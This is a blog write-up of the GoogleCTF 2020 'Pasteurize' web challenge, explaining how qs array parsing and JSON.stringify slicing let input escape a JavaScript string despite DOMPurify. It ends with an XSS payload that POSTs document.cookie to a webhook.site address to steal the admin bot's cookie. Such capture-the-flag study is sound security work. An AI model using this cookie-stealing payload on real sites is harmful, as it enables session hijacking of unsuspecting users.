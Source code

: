 ```yaml
---
title: "GoogleCTF 2020: Pasteurize"
date: 2020-08-23T17:35:14-06:00
draft: false
comments: false
images:
tags:
    - writeups
    - web
    - xss
---
```


This is the first challenge I worked on. I will soon upload a post on the second one. I completed this challenge with the help of my team mentor!

(As GoogleCTF 2020 ended on the day of this post, I will be omitting the flag from this article. I will update it once enough time has passed.)

## Let's Begin!

The challenge lets us load into the DOM whatever we want through this pastebin-esque function.
When you make a note, you have an option to share it with a "TjMike" Entity. Sign of XSS/CSRF attacks?

{{< image src="/images/google2020pastdompur.png" alt="Login" position="center" style="border-radius: 8px;" >}}
_My input, "uwu", is shoved into a javascript string variable called 'note'. Further down we see a_ ``const clean`` _variable that calls DOMpurify to sanitize our input._


Looking into the HTML, whatever content we put into the note is immediately shoved into a javascript string. However, if you try to input quotation marks in there, the DOMpurify clean function escapes it. So, if we can get an unescaped quote in there, we can do whatever want. Let's focus on the comment.

{{< image src="/images/google2020source.png" alt="Login" position="center" style="border-radius: 8px;" >}}

Going to the ``/source`` endpoint takes us, well, directly to the webpage's app file. 

Of note are the app's use of using the Express BodyParser to operate on 'extended' mode (using the `qs` library instead of the `querystring` library).

{{< image src="/images/Google2020bodyparser.png" alt="Login" position="center" style="border-radius: 8px;" >}}

In the source we also see:

{{< image src="/images/google2020json.png" alt="Login" position="center" style="border-radius: 8px;" >}}

``JSON.stringify(unsafe)`` - if our content (unsafe) is a string, then the function simply adds additional quotation marks onto the string, and the ``slice(1,-1)`` function removes those extra quotations, before feeding it to the DOM to be rendered. What if our input isn't a string - what if it's an array? 

The [``qs``](https://www.npmjs.com/package/qs#parsing-arrays) library allows arrays to be parsed from HTTP requests if theyre stipulated as:

```
{
    array[]=a&array[]=b

    //array = [a,b]
}
```

When we make a note (POST request to ``/note``), intercept the request via burpsuite. Modify your query there. Change ``content=`` to ``content[]=`` (Alternatively, you can CURL your request to not deal with proxy settings).


{{< image src="/images/google2020pastalert.png" alt="Login" position="center" style="border-radius: 8px;" >}}

{{< image src="/images/google2020xss.png" alt="Login" position="center" style="border-radius: 8px;" >}}

If we go to the page, we see that an alert is prompted - aka, we have succesfully escaped the JS string and can write javascript code as normal. That being said, let's go ahead and craft a payload to xss TJMike (I am being lazy and reusing an old payload of mine from before and modifying it).

```
content[]=; document.getElementById('note-content').onLoad = fetch('https://webhook.site/64627794-30a4-466d-b93a-537bdebca744', {method:'POST', body:JSON.stringify({data:document.cookie})});const uwu = 
```

Share our note to TJMike. Wait for our server to grab their cookie. 
